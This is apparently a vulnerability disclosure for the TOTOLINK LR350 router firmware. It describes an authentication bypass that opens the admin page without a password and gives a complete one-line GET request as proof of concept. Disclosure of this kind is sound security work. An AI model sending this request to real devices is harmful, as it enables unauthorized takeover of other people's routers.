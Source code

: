 # TOTOLINK LR350 Vulnerability
---
-   Vendor: TOTOLINK
-   Product: LR350
-   Version: LR350_firmware - V9.3.5u.6369_B20220309
-   Type: formAuthLogin bypass    
-   Author: c0nyy, Reisen_1943    

### Vulnerability description:

---
 - This vulnerability allows remote attackers to access the admin page without a password by manipulating the **authCode** parameter to **1** and setting the **goURL** parameter to **home.html**.
 - PoC: **GET /formLoginAuth.htm?authCode=1&userName=admin&goURL=home.html&action=login HTTP/1.1**

![POC_LR350](https://github.com/user-attachments/assets/898d71a0-cce8-4273-8acb-826be03aa6c8)